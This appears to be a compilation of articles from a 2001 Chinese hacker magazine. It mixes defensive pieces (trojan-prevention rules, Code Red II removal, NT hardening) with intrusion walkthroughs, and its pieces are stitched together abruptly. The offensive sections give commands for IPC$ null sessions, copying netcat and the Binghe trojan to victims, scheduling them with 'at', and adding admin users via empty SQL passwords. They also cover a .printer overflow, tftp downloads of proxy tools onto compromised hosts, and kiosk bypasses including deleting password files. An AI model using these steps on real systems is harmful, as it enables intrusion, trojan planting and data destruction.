“网络基本输入/输出系统” NetBIOS (Network Basic Input/Output System) 是一种标准的应用程序编程接口 (API), 1983 年由 Sytek 公司专为 IBM 开发成功。NetBIOS 为网络通信定义了一种编程接口，但却没有详细定义物理性的“帧”如何在网上传输。1985 年, IBM 创制了 NetBIOS 扩展用户接口 ( NetBIOS Extended User Interface, NetBEUI ), 它同 NetBIOS 接口集成在一起，终于构成了一套完整的协议。由于 NetBIOS 接口变得愈来愈流行，所以各大厂商也开始在如 TCP/IP 和 IPX/SPX 等协议上实施 NetBIOS 编程接口。到目前为止，全球已有许多平台和应用程序需要依赖于 NetBIOS，其中包括 WindowsNT 、Windows2000、Windows95 和 Windows98 的许多组件。微软的客户机/服务器网络系统都是基于 NetBIOS 的。在利用 Windows NT4.0 构建的网络系统中，对每一台主机的惟一标识信息是它的 NetBIOS 名称。系统可以利用 WINS 服务、广播及 Lmhost 文件等多种模式将 NetBIOS 名解析为相应 IP 地址，从而实现信息通讯。在这样的网络系统内部，利用 NetBIOS 名实现信息通讯是非常方便、快捷的。要注意的是 Windows CE 并不支持 NetBIOS API，只是用 TCP/IP 作为其传送协议，并同时支持 NetBIOS 的名称与名称解析。

在你安装 TCP/IP 协议时, NetBIOS 也被 Windows 作为默认设置载入了你的电脑，而电脑随即也具有了 NetBIOS 本身的开放性。换句话讲，在不知不觉间，你的上网电脑已被打开了一个危险的“后门”。这个后门可以泄漏你的信息：你的计算机名和工作组。事实上，有许多人会用自己的真实姓名做计算机名称，还有自己的单位名字作为工作组，这样很容易根据某个人的固定信息找到某个人的 IP 地址。这类软件有冯志宏先生的月光搜索——追捕版，用它来搜索，速度是非常快的。其实，就是用 Windows 自带的 nbtstat 命令也能收集到很多信息。

再有，这个后门可能让对方访问到你的计算机里的文件！先说说 Win9x。如果你的共享资源没有加上口令的话，那么全世界的人都可以共享了。偏偏有很多人的硬盘都是完全共享，一个口令也不加，就算设置为只读也能读取计算机里的 passwd 密码文件，然后得到你的密码或你的私人文件。再说说 NT，这号称 C2 级别的操作系统连上网后就不再是 C2 级别了！虽然 NT 有安全机制，但是如果管理员有薄弱的密码，通过 NetBIOS 获得用户名就可以利用 IPC$ (进程间通信) 进行攻击。IPC$ 共享是 NT 主机上一个标准的隐藏共享，主要用于服务器到服务器的通信。NT 主机用来互相连接并通过这个共享来获得各种必要的信息。通过连接这个共享，就能够实现与 NT 服务器的有效连接。通过与这个共享的空连接，你就能够在不需要提供任何身份证明的情况下建立这一连接。要与 IPC$ 共享进行空连接，入侵者会在命令提示符下发出如下命令：

```
C:\>net use \\目标主机的IP地址\ipc$ "" /user ""
```

如果连接成功，网络入侵者就会有很多事情可做，可不仅仅只是收集用户列表哦。

在互联网上有许多用来寻找这样的“后门”的程序，较有名的有 Legion 2.1、shed、网络刺客 II、SMBScanner 等，其实只要有个扫描器，扫描 139 端口（139 端口是 NetBIOS session 端口，用来进行文件和打印共享的，如果你的网络设置有 NetBIOS 这个协议的话，139 端口就会打开）就有可能入侵成功！即使不一定会入侵成功，但利用 139 这个端口进行 IP 攻击却是完全可能的，很久以前就有这样的程序了，没有打过补丁的 WIN98 不出 1 秒钟保证会蓝屏，在 30 秒内死机！

### 二、NetBIOS 入侵实例

为了让大家进一步了解 NetBIOS 服务开放的危险，我们以 Legion2.1 来看看入侵者是如何通过 NetBIOS 进行入侵的。

Legion 是著名的安全组织 Rhino9 推出的一款针对 WIN9X 的傻瓜级 Hack 软件，简单易用。它的出现，使得一个即便是对网络安全知识了解的不多的人也能过一把黑客瘾，可以轻松进入别人的电脑！为了加强大家的网络安全意识，做到知己知彼，今天就为您介绍一下如何利用这个软件来查找共享主机。

从网上下载回来的 Legion 是 .ZIP 压缩文件，解压后得到主文件 Legion.exe，文件大小为 173K，我手头上的这个是 2.1 汉化版。运行 Legion.exe，出现如图所示画面 图 1 。


图 1

主窗口中只有两个菜单选项，可以通过它们得到这个软件的帮助和版权信息。Legion 的主要功能都在主界面里，在“扫描类型”下有两个单选框 图 2 ，


图 2

一个是“扫描范围”，用来扫描一段 IP 地址，Legion v2.1 最多一次能扫描 64 个 C 类 IP 地址；另一个是“扫描列表”，可以导入事先准备好的 IP 地址列表，这个 IP 地址列表必须是文本文件，且必须一个 IP 地址占一行。你也可以在主界面右面的“扫描列表”下面的文本框中直接输入 IP 地址，然后点击“ADD”将这个 IP 地址加入。如果你想扫描不在一个 IP 段的几个 IP 地址，可以采用这种方法，否则不要用，不然光是手工输入 IP 地址，就会使一个革命同志累倒的！ 在连接速度下面共有“更慢、28.8K、56K、更快”四个单选框 图 3 。根据你的网速情况选一个吧！怎么选？你的上网速度如果大于 56K 羡慕啊 ，就选择“更快”按钮；如果上网速度小于 56K 且不小于 28.8K 好惨啊 ，就选 28.8K 对应的单选框，这也是软件默认的连接速度；什么？你的猫速小于 28.8K 那只能选“更慢”了；使用 56K 小猫的选哪个单选框就不用我说了吧？


一般的 BBS 大多是用 ASP 或 CGI 等脚本语言来写的。程序员一般都不会检查是否有恶意的用户提交同样的内容。像提交其他的表单一样，填好 user 和 password 的内容后，把内容的表单做成字典（字典的制作见上面）。我们开始留言 test，一般的留言后都会出现谢谢留言的特征字符（没有也可以，随便选一个就行，目的是让留言可以继续进行）。选中后告诉服务器。暴力提交的步骤我就不说了，主要是利用工具来做的了。

注意有时由于脚本的原因，（例如：有些像 jsp 等脚本好像就不能探测），cookie 的原因探测可能不成功，请自行修改设置。

## 防范特洛伊木马的二十条铁律

文/小蓉

特洛伊木马是一种基于远程控制的黑客工具，具有很强的隐蔽性和危害性。由于木马都是在我们先运行了 Server 端（服务端），然后再启动 Client 端（客户端）进行控制。因此只要我们保持警惕，不让 Server 端有机会进入我们的电脑，也就不会被控制了，以下是我总结的防范特洛伊木马的二十条铁律：

- 以下六招是预防木马的常用招数：
- 1. 不要运行来历不明的软件，即使通过一般反病毒软件的检查也不要轻易运行。对于此类软件，要用如 Cleaner、LockDown、木马克星等专门的黑客程序清除软件检查。
- 2. 不要轻易相信别人。有些别有用心的人，经常装作“大虾”善意的帮助人，给您发各种软件或图片，在您运行了这些软件后就后悔莫及了。
- 3. 下载软件到有名的大站点，不要去小站点。
- 4. 保持警惕性，对不熟悉的人发来的 E-Mail 不要轻易打开，带有附件就更小心了。另外就算是熟人发来的 E-Mail，对其中的附件也要小心，您的朋友也许会无意中害了您（他的电脑被感染了木马，但他有可能自己并不知道）。
- 5. 一定要给自己找个好点的实时监控反病毒软件，同时还要准备如 Cleaner、LockDown、木马克星等反黑软件，对下载的软件在运行前用它们进行检查。
- 6. 安装网络防火墙，如新版天网。这样即便是中了木马，当有程序要连线上网，天网也会有所提示，因此就有可能发现木马（这是对付反弹端口木马的绝好方法，反弹端口木马“网络神偷”因此不再可怕）。

- 以下三招是预防浏览网页中木马的招数：
- 7. 及时为系统安装补丁和疫苗。这样做可以减少浏览网页中木马的可能，会相对安全一些。
- 8. 运行 IE，点击“工具→Internet 选项→安全→Internet 区域的安全级别”，把安全级别由“中”改为“高”。
- 9. 由于该类网页是含有有害代码的 ActiveX 网页文件，因此在 IE 设置中将 ActiveX 插件和控件、Java 脚本等全部禁止就可以避免中招。具体方法是：在 IE 窗口中点击“工具→Internet 选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有 ActiveX 插件和控件以及 Java 相关全部选择“禁用”即可。不过，这样做在以后的网页浏览过程中可能会造成一些正常使用 ActiveX 的网站无法浏览。唉，有利就有弊，您还是自己看着办吧。

以下为检查特洛伊木马方法：

- 10. 注意检查注册表。如果觉得系统异常，请检查注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion` 和 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion` 以及 `HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion` 下，所有以“Run”开头的键值名，看其下有没有可疑的文件名。如果有，就需要删除相应的键值，再删除相应的应用程序。
- 11. 注意检查启动组。木马们如果隐藏在启动组，虽然不是十分隐蔽，但这里的确是自动加载运行的好场所，因此还是有木马喜欢在这里驻留的。启动组对应的文件夹为：`C:\windows\start menu\programs\startup`，在注册表中的位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders Startup="C:\windows\start menu\programs\startup"`。要注意经常检查启动组哦！
- 12. 注意检查 Win.ini。在 Win.ini 的 windows 字段中有启动命令“load=”和“run=”，在一般情况下“=”后面是空白的，如果有后跟程序，比方说是这个样子：`run=c:\windows\n0tepad.exe load=c:\windows\n0tepad.exe` 要小心了，这个 `n0tepad.exe`（注意在“n”后是数字“0”而非字母“o”）很可能是木马哦。
- 13. 注意检查 System.ini。System.ini 位于 Windows 的安装目录下，其 boot 字段的“shell=Explorer.exe”是木马喜欢的隐蔽加载之所，木马通常的做法是将该句变为这样：`shell=Explorer.exe n0tepad.exe`，注意这里的 `n0tepad.exe` 就是木马服务端程序！另外，在 System.ini 中的 386Enh 字段，要注意检查在此段内的“driver=路径\程序名”，这里也有可能被木马所利用。再有，在 System.ini 中的 mic、drivers、drivers32 这三个字段，这些字段起到加载驱动程序的作用，但也是添加木马程序的好场所，现在你应该明白也要注意这里喽。
- 14. 注意检查 Autoexec.bat 和 Config.sys。请大家注意，在 C 盘根目录下的这两个文件也可以启动木马。但这种加载方式一般都需要控制端用户与服务端建立连接后，将已添加木马启动命令的同名文件上传到服务端覆盖这两个文件才行，而且采用这种方式不是很隐蔽，容易被发现，虽然在 Autoexec.bat 和 Config.sys 中加载的木马并不多见，但也不能因此而掉以轻心哦。
- 15. 注意检查 `C:\windows\winstart.bat` 文件。Winstart.bat 是一个特殊性丝毫不亚于 Autoexec.bat 的批处理文件，也是一个能自动被 Windows 加载运行的文件。它多数情况下为应用程序及 Windows 自动生成，在执行了 Win.com 并加载了多数驱动程序之后开始执行（这一点可通过启动时按 F8 键再选择逐步跟踪启动过程的启动方式得知）。由于 Autoexec.bat 的功能可以由 Winstart.bat 代替完成，因此木马完全可以像在 Autoexec.bat 中那样被加载运行，危险由此而来。
- 16. 注意 *.INI 文件。INI 文件即应用程序的启动配置文件，控制端利用这些文件能启动程序的特点，将制作好的带有木马启动命令的同名文件上传到服务端，覆盖同名文件，这样就可以达到启动木马的目的了。因此要特别注意这些 INI 文件（如 wininit.ini 等）。
- 17. 注意系统中常用文件长度，木马如果捆绑在其中，长度就会发生变化，这是发现捆绑文件型木马的好方法。
- 18. 注意上网时电脑所用端口，对 1024 端口以上的不连续端口要密切注意。可以通过键入：`netstat -a` 命令来观察与你机器相连的当前所有通信端口，当有具体的 IP 正使用不常见的端口（一般大于 1024）与你通信时，这一端口很可能就是特洛伊木马的连接端口。常见木马默认连接端口：冰河 7626；BO2000: 54320；NetSpy 3.0: 7306；黑洞 2001: 2001；WAY 2.4: 8011；初恋情人: 8311；网络公牛: 234444；聪明基因: 7511；YAI: 1024；Sub Seven: 1043, 6678, 6711, 27374；NetBus: 12345...
- 19. 注意检查进程。用查看进程软件来查看，如果发现有可疑进程，快看看其对应文件在硬盘中的哪个文件夹下，然后用反病毒、反黑软件进行检查。

最后一条为特别建议：

- 20. 发现情况不对立即断线。尽管造成上网速度突然变慢的原因有很多，但有理由怀疑由特洛伊木马造成的也是有根据的。当入侵者使用特洛伊的客户端程序访问你的机器时，会与你的正常访问抢占带宽，特别是当入侵者从远端下载用户硬盘上的文件时，正常访问会变得奇慢无比！这时，你可以双击任务栏右下角的连接图标，仔细观察一下“已发送字节”项，如果数字变化成 1~3 Kbps（每秒 1~3 千字节），几乎可以确认有人在下载你的硬盘文件！除非你正在使用 ftp 功能。当发现上述可疑迹象后，你所能做的就是立即断线，然后对硬盘有无特洛伊木马进行认真的检查。

只要你能够按照上面所说的二十条建议去做了，你的电脑中木马的可能性就微乎其微了，木马将离你远去！

## 手动清除“红色代码II”

最近几周，一种名为“红色代码” Code Red 专门攻击网站服务器的计算机病毒及其变种急速在互联网上蔓延，数以万计的服务器在病毒迅猛的攻击下纷纷落马。来自美国的消息说，9 小时之内，美国超过 25 万个网络系统被“红色代码”感染，据美国加州“计算机经济”公司估计，该病毒在美国造成的经济损失已增至近 20 亿美元。目前，其变种“红色代码 II”具有更强的感染性和破坏性，我国也有大量网络系统被感染。

敬告各位网管，如果服务器不幸中了此病毒，应该立即关闭所有 80 端口的 web 服务，避免病毒继续传播。

下面是在没有专门杀毒工具时手动清除的步骤：

- 1. 清除 Web 服务器中的两个后门文件：`/msadc/root.exe` 和 `/scripts/root.exe`
  这两个文件的物理地址一般情况下默认为：
  ```
  C:\inetpub\scripts\root.exe
  ```
  ```
  C:\progra ~ 1\common ~ 1\system\MSADC\root.exe
  ```

- 2. 清除本地硬盘中：`C:\explorer.exe` 和 `D:\explorer.exe`
  先要杀掉进程 explorer.exe，打开任务管理器，选择进程。检查是否进程中有两个“explorer.exe”，如果您找到两个“explorer.exe”，说明木马已经在您的机器上运行了，在菜单中选择 查看→选定列 →线程计数，按确定。这时您会发现显示框中增加了新的一列“线程数”。检查两个“explorer.exe”显示线程数为“1”的“explorer.exe”就是木马程序。您应当结束这个进程。之后，您就可以删除掉 `C:\explorer.exe` 和 `D:\explorer.exe` 了，这两个程序都设置了隐藏和只读属性。您需要设置“资源管理器”的查看→选项→隐藏文件为“显示所有文件”才能看到它们。

- 3. 清除病毒在注册表中添加的项目：
  - `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
    删除键：`SFCDisable`，键值为 `0FFFFFF9Dh`（或将键值改为 0，设置为 0FFFFFF9Dh 后，将在登录时禁止系统文件检查）
  - `HKLM\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\Scripts`
    键：`Scripts`，键值为 `217` 改为 `201`
  - `HKLM\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\msadc`
    键：`msadc`，键值为 `217` 改为 `201`（同 Scripts）
  - `HKLM\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots`
    删除键：`C`，键值为 `c:\` 和 `217`（它将本地硬盘中的 C 盘在 Web 中共享为 C）
  - `HKLM\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots`
    删除键：`D`，键值为 `d:\` 和 `217`（它将本地硬盘中的 D 盘在 Web 中共享为 D）
  如果不删除注册表中的以上键，中毒服务器的本地硬盘 C、D 将被完全控制。

- 4. 重新启动系统，以确保 CodeRed 彻底清除。

- 建议：下载安装补丁
  - Windows NT 4.0：`Q300972i.exe`
  - Windows 2000：`Q300972_W2k_SP3_x86_cn.exe`

## Windows NT 安全防范措施

在 Internet 的广泛应用中，Windows NT 作为一种操作平台在人们的心目中占有一席之地，但是它的安全性一直是使 NT 管理员深感不安的问题。任何一位略懂网络技术的用户，只要在运行 Windows 95 的环境下敲入命令“`net use Q: \SERVER-NAME\SHARENAME`”，就能通过网络存取服务器的启动分区！为了确保安全性，以下 7 项措施可供 NT 管理员参考。

- 1. 宁可用 NTFS，而不用 FAT 格式
  NTFS（NT 文件系统）可以对文件和目录使用 ACL 存取控制表，ACL 可以管理共享目录的合理使用，而 FAT（文件分配表）却只能管理共享级的安全。出于安全考虑，您必须处处设置尽可能多的安全措施，凡是与 Internet 相连的 Windows NT 计算机都应该使用 NTFS。使用 NTFS ACL 的好处在于，如果它授权用户对某分区具有全部存取权限，但共享级权限为“只读”，则最终的有效权限为“只读”。Windows NT 取 NTFS ACL 和共享权限的交集。在实施这样的网络方案时，您最好限制 Internet 服务器的共享，但是如果非要与 Internet 服务器交换文件，则可借助于 NTFS。一旦建立新的共享权限，不要忘记修改由 NT 指定的缺省权限，否则 Everyone 用户组就能享有“完全控制”的共享权限。那些已经使用了 FAT 的用户，在 x86 的 NT 系统上可以用 convert 命令将启动卷升级为 NTFS。

- 2. 将系统管理员账号改名
  对于试图猜测口令的非法用户，NT 的 UserManager 可以设置防范措施，例如 5 次口令输入错误后就禁止该账号登录。问题在于系统管理员这个最重要的账号却用不上这项防范措施。即使将系统管理员的权限全部授予某个用户账号，并且只使用该用户账号进行管理，但是由于系统管理员账号本身不能删掉或废止，因而非法用户仍然可以对系统管理员账号进行口令攻击。
  一种值得推荐的方法是将系统管理员账号的用户名由原先的“Administrator”改为一个无意义的字符串。这样要登录的非法用户不但要猜口令，还要先猜出对方用户名。这种改名功能在 UserManager 的 UserProperties 对话框中并没有设置，我们可以从 User → Rename 菜单选项中实现这一功能。
  用于提供 Internet 公共服务的计算机不需要，也不应该有除了系统管理用途之外的其他用户账号的存在。因此，应该废止 Guest 账号，禁用或限制所有的其他用户账号。
  如果我们用的是 NT 4.0，可以用 ResourceKit 中提供的工具封锁联机系统管理员账号。这种封锁只对由网络过来的非法登录起作用。账号一旦封锁掉，系统管理员还可以通过本地登录重新设置封锁特性。

- 3. 打开审计系统
  如何才能知道在 NT 环境中安全性是否已经被攻击或攻破呢？NT 的事件审计系统就设有此项功能，但该系统需要被激活。UserManager 中的 Policies → Audit 菜单选项可以激发控制审计事件的屏幕。问题的关键在于您应当收集有用的信息。您可以审计各种操作非法和授权登陆成功和失败的情况。失败的情况通常比成功的情况少得多，但从安全性的方面考虑，失败事件更值得我们注意。另外，不常用的操作也值得注意，如安全性策略的改变和再启动往往反映了未经授权用户的行为。NT 允许跟踪诸如 FileAccess、UseofUserRights 和 ProcessTracking 等成功的操作，但它需要大量的存储空间，而且对跟踪所得的数据进行分析也不是一件容易的事情。使用审计功能，最关键的一步是要查看 NT 在正常运行时所记录的事件日志，它能帮助我们发现问题的前兆。审计日志本身也需要保护，因为非法用户在进入系统之后通常会抹掉其活动踪迹。首先，我们应该随机的或定时对备份日志文件进行备份。但是如果这些备份仍然是联机的，则也有可能被非法用户获取到。一个比较好的解决方法是将审计事件记录同时制成硬拷贝，或者将其通过 E-mail 发送给系统管理员。NTPerl 为我们提供了一个很友好地阅读事件日志的模块。

- 4. 禁用 TCP/IP 上的 NetBIOS 服务
  连接到 Internet 上的 NT 支持 NetBEUI 和 TCP/IP 两种传输协议的 Windows 网络功能。那么，什么是 Windows 网络功能呢？它就是所有要求 \NAME 句法形式的操作，包括目录和打印机共享、NetDDE 和远程管理。通过 Internet 连到某个驱动器编辑或寄存内容，只需要在本地 lmhosts 文件里构造目标站 NetBIOS 名与其 IP 地址之间的映象。例如，使用 Windows 95 中的 EventViewer 和 UserManager 就可以管理 Internet 上的其他服务器，这种特性为管理员提供了方便，但同时也使非法用户找到了可乘之机。
  令人庆幸的是，微软在 NT 上加强对 TCP/IP 上的 NetBIOS 严密的管理控制。您可以使用网络控制面板中的装订对话框禁用多种基于 NetBIOS 服务与 TCP/IP 之间的装订。由于 NT 的网络服务同时运行多种传输功能，做上述废止操作的计算机之间可以使用 Server、Workstation 和其他服务进行对话，因为这些对话不从 Internet 上走，而是通过 NetBEUI 通道。当然，完成了这种废止操作之后，就不允许任何人做远程驱动器安装并远程编辑或寄存内容。

- 5. 关闭不必要的向内 TCP/IP 端口
  一旦非法用户进入系统并得到管理员权限之后，他定要想办法恢复管理员刻意废止的 NBT（TCP/IP 上的 NetBIOS）装订。管理员应该使用路由器作为另一道防线。假设有 NT 服务器没有太多的防护系统，暴露在防火墙以外，其作用是提供诸如 Web 和 FTP 之类

# 黑客防线精华本 2001

是软件就有正版和盗版之分，同样美萍又有注册和未注册之分，同样是注册的美萍又有限制级别之分。不过对于我们呢，就只有好破的和不好破的两种。言归正传，想要自由最重要的几个工具就是 Control.exe、Regedit.exe、Msconfig.exe。有了这几种神兵利器你还不是想干什么就能干什么。工具是要用，可是人家不让怎么办？小生主要是通过以下几种办法：

- 利用地址栏
在美萍中限制最差的，只要在 IE 的地址栏里敲入 `file:///c/windows/control.exe` 就可以调出控制面板。如果是 Windows 98，那么点一下向上的按钮就可以调出我的电脑。如果是 Windows 95，就请试试 EXPLORER.EXE 吧，不过好像不太管用。

- 利用文件下拉菜单
点一下 IE 的文件下拉菜单，点一下“打开”，点一下“浏览”，是不是什么文件都可以看见？选择你想要的文件，点一下“确定”，可以吗？
如果不行，请把“以 WEB 文件夹方式打开”的单选框选上再试一次。这时会跳出一个提示框：“IE 无法将某文件作为 WEB 文件夹打开。是否按默认方式查看？”选取“是”，会跳出文件下载提示框，询问如何处理该文件，点一下“在当前位置运行该程序”单选框，点一下“确定”，会出现一个安全设置警告提示框，再点一下“是”，你就可以运行该程序了。什么，没有反应？那就只好再深入一步……

- 利用邮件编辑器
随便打开一个网址，例如网易的主页。页面的最下端有一个“联系我们”超级链接。点一下会跳出邮件编辑器 OUTLOOK 或是 FOXMAIL。有什么用？选取“加入附件”，浏览选定，然后点一下它，一定可以运行。
如果控制面板和注册表编辑器被禁用了，那么请试试 MSCONFIG.EXE。点一下“诊断启动”单选框，点一下“确定”，下一次启动时就不会加载美萍。

在极少数的情况下连 MSCONFIG.EXE 都被禁用了，那么用 NOTEPAD.EXE 导入注册表文件的方法解开控制面板和注册表编辑器。用 NOTEPAD.EXE 新建一个文本文件，把下面的内容打进去，把文件的扩展名 .TXT 另存为 .REG，然后双击该文件，点“是”就可以导入注册表。

```
REGEDIT4
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System
"NoDevMgrPage"=dword 00000000
"disableregistrytools"=dword 00000000
```

如果 NOTEPAD.EXE 也被禁用了

- 利用安全模式
没关系，要是你不想再上网了，我们还有一个法宝：安全模式。
重新启动计算机，在 STARTING WINDOWS... 后按住 Ctrl 键会出现启动菜单。如果没有，那是 C:\MSDOS.SYS 文件中 BOOTKEY=0 了。看到蓝天白云了吗？快按主机上的 RESET 键，再次重启。什么，主机被锁在柜子里？你不会用 Ctrl + Alt + Del 吗？这次会出现启动菜单并解释因为系统启动时出错，要求进入安全模式，那就进吧。
进去看一看，哎呀，连安全模式里都有美萍，真是道高一尺，魔高一丈。难道说真的就滴水不漏？这台计算机上也许会有一个高级用户吧。

- 利用 DOS 实模式
重新启动进入 DOS 实模式，DEL C:\WINDOWS\*.PWL。把其它的用户都干掉，你不就是最

高级的。哈哈哈……

还是不行吗？那么别怪我不客气了。在 DOS 实模式下 DELTREE C:\SMENU 或者是 FORMAT C /Q/U。如果没有外部命令 FORMAT 和 DELTREE，那有 DEL 吧？什么什么，连内部命令 DEL 都没有，那一定是 DOSKEY 命令宏搞的鬼。在 DOS 提示符下敲入 SET 查看一下。把该改的都改过来，例如“DOSKEY DEL=”就可以解除。

## 简单 Windows 2000 肉鸡的获得

2001 年 5 月 4 日，20 点中国红客联盟的红客利用拒绝服务手段使得白宫的网站无法访问达 4 个小时。红客们使用的就是肉鸡。中国黑客把自己开了后门的主机叫做肉鸡或跳板，一般肉鸡都具有速度快，攻击后不易被发现等特点，所以一直受过大黑客喜爱。下面劲刀狂舞就讲讲 Windows 2K 肉鸡获得过程。

微软实在是太可爱了，漏洞惊报不断，我这里不是在总结，只是写点攻击 2K 方法。毕竟我们不是搞破坏的，只是想搜集肉鸡而已。我下面介绍用 4 个最简单的漏洞得到管理员权限。

- 1. IPC 空连接
- 2. SQL Server 空密码
- 3. 远程终端输入法漏洞
- 4. IIS ISAPI Printer 远程溢出

第一步选择工具：

- MS Windows 2000 必需的操作系统
- 流光 IV（或流光 2001）：小榕的著名漏洞扫描器
- MS SQL Exec for NetHackerIII 或者 MS SQL：用来连接 MS SQL
- 终端服务客户端：连接终端服务客户端，可以访问运行“终端服务”的服务器
- ShadowScan（或者其他网络工具箱）：扫描网络指定主机
- 冰河 2.2（或其他大家熟悉的木马）

pscan.exe：IIS ISAPI Printer 远程溢出扫描器，100 个线程，适于在肉鸡上使用。cniis.exe：傻瓜形的 IIS ISAPI Printer 远程溢出程序，使用后建立一个用户名密码都为 hax 的 admin 账户。

第二步主机扫描：

我们首先选择一段 IP 地址 xxx.xxx.xxx.xxx（马赛克处理），先用流光扫描一下 NT 的多少。

方法：

从菜单【探测】->【扫描 POP3/FTP/NT】主机，或者直接按 Ctrl + R -> 输入一段 IP 地址，扫描主机类型选择 NT/98 -> 确定，如图 1 所示。


图 1

不久就会在 IPC$ 主机下出现一些主机，然后将在“IPC$ 主机”条目上点右键弹出菜单。首先我们需要从主机得到一个用户列表，所以选择“探测所有 IPC$ 用户列表”一项。然后如图 2 选择：


图 2

经过探测，我们成功得到了若干管理员的用户名和密码。我们以成功地扫描到 xxx.xxx.xxx.xxx 的一个具有 Administrator 权限的用户 Administrator，其密码为空为例进行远程登陆。

```
NT 远程登陆的命令行语法：net use \\IP Address\IPC$ "password" /user "username"
```

```
退出登陆的语法：net use \\IP Address\IPC$ /delete
```

登陆成功之后，先复制一个 Telnet 的程序上去 NetCat，在这里我改为 Srv.exe。这个程序是在 NT 上面开一个 Telnet 服务，端口是 99，软件在流光目录下的 tools 文件夹里。我们把冰河改名服务端 G_server 加到 tools 文件夹里。

打开 cmd.exe

输入：`net use \\xxx.xxx.xxx.xxx\ipc$ "" /user Administrator` 回车

返回：命令成功完成

输入：`copy \\tools\srv.exe \\xxx.xxx.xxx.xxx\admin$\system32`
`copy \\tools\G_server.exe \\xxx.xxx.xxx.xxx\admin$\system32`

返回：已复制一个文件

输入：`net time \\xxx.xxx.xxx.xxx`

返回一个时间，例如：上午 3:25

输入：`at \\xxx.xxx.xxx.xxx 3:27 srv.exe`

返回：新增了一项作业，其作业 ID=1

等到了 3:27

输入：`telnet xxx.xxx.xxx.xxx 99`

返回：成功信息

输入：`G_server.exe`

我们就这样种下了冰河给目标机器。

SQL Server 是运行于 NT 平台上的数据库，通常采用 IIS 作为 Web Server 的 NT 服务器均采用 SQL Server 作为数据库服务器。SQL 2000 以前的版本在默认安装时的密码均为空，如果网管在安装时没有配置用户密码，无疑会给我们留下一个后门。以下简单说明：

我们也可以用流光 IV（或流光 2001）扫描一段地址，例如图 3：


图 3

当用户的密码设置为空，或过于简单时，得到如下的结果：如图 4


图 4

点击“工具”->“SQL 远程命令”，或者直接用 Ctrl + Q，填入主机、用户、密码等。值得注意的是，方法一需要安装 SQL Server，但是使用 SqlExec 就不需要 SQL Server 的支持了。SA 的权限相当于系统的超级用户权限，我们可以用这个命令行模式添加用户，具体命令如下：

加入一个用户 heihoo，密码为 heihoo.com。

输入：`net user heihoo heihoo.com /add`

显示：命令成功完成

将 heihoo 加入 Administrator 组

```
net localgroup administrators heihoo /add
```

这样我们又得到了一个 admin 权限。再根据 IPC 共享来控制目标主机。

如果使用 SqlExec 也很简单，界面如图 5：


图 5

顺便说一句，流光 IV 可以检测到 MySQL 的弱密码，我们通过这个可以查询数据库中的所有信息，不过得不到 root 权限。想更多地了解，请查阅相关资料：http://www.mysql.com。这一讲就写到这里，我们今天学习了有关 Win2K IPC$ 共享的入侵方法和 MS SQL 空密码的入侵方法。还应该掌握 net 命令的格式。下一讲我将介绍关于 Win2K Unicode 漏洞利用和 ISAPI Printer 远程溢出漏洞的利用。

## 在肉鸡上制作 Sock 跳板

文/中国鹰派：eyer00t

肉鸡、跳板在黑客技术交流中出现的频率很高，其实意思都差不多。黑客为了更好的隐蔽自己的行踪，就通过跳板来隐藏自己。当他成功入侵一台主机，那么系统中留下的便是跳板的地址，如果他采取多重跳板的话，一般是很难查到黑客的真正位置的。做跳板的方式很多，不同的系统有不同的方法，下面向大家介绍一下黑客利用 Server 2000 的肉鸡来制作跳板，或者说是代理。其实代理不光对黑客有帮助，对一般的网友也是有用的，通过代理我们可以提高我们上网的速度，扩大上网的浏览的范围，具体怎么样就不做介绍了。闲话少说，那么黑客怎么来实现这一技术的呢？听我慢慢道来。

首先用扫描器在网上寻找 Server 2000 的主机，因为这样的系统在网上比较多，本人就曾经扫描过台湾的某个域，不到一分钟可以扫出一大堆。一般黑客经常用的扫描器是 Superscan，这个扫描器非常的轻巧，扫描速度也很快。拉上 Superscan 在某个域里面扫描 3389、80 两个端口。你也可以自己试一下，当然不能做非法的事情，Server 2000 的主机的确很多。那么为什么要扫描这两个端口呢？3389 是终端服务开放的端口，80 我不说你也应该知道，IIS 5.0 的 Web 服务器有个比较新的 .printer 漏洞，对于没打 sp2 的主机都存在。在扫描到的主机中随便挑一个。然后利用 IISX3.0（这是一个针对 IIS5 中文版 .printer 远程溢出程序），即 .printer 漏洞远程溢出工具，搞个溢出，以取得系统的 admin 权限。拉出 cmd.exe，假设主机为 11.22.33.44：

```
E:\iisx> iisx.exe 11.22.33.44 -a
sending shellcode...
Now net use \\11.22.33.44\ipc$ "hax" /user "hax"
E:\iisx> net use \\11.22.33.44\ipc$ "hax" /user "hax"
```

命令成功完成。

这就表明在主机 11.22.33.44 上面有了一个你自己的 admin 帐号。这样就完成了控制主机的第一步，建立超级帐号。漏洞比较大，入侵也比较容易。

第二步，用终端服务客户端连到主机上面，使用的帐号当然是刚才溢出时建立的，即 hax/hax。连上以后，再像操作本地主机一样操作远程主机。在本地主机上打开 TFTP 服务器，因为我们要做 SOCK 代理，所以要放一个代理软件上去。设置好目录以后，再在远程主机上打开 cmd.exe。我们要使用的代理软件是 snake 写的 sksockserver，可以到 http://snake12.top263.net 下载。假设本地主机的 IP 为 11.22.11.22，在命令行中输入如下命令：

```
C:\hax> tftp -i 11.22.11.22 get skgui.exe
```

以下是操作过程的截图（图 1）：


第三步：上传成功后，便可以在远程主机上面找到我们上传的代理软件。当然，上传代理软件的方法不仅仅是使用 TFTP 服务器，还可以使用 FTP。如果对方的主机上有 WinZip 解压软件的话，可以直接使用 IE 来下载。

好了，现在我们已经把需要的软件放到了远程主机上，现在要做的一件事情便是打开代理，设置你想设置的代理端口。图 2 是代理设置的截图，图上表明我们已经连接成功：设置的端口是软件默认的 1913，这个可以自己设定，设置方法为点击 config，再选中 option，在 server port 里面的软件默认的 1913 改成你想要设置的端口即可。


图 2

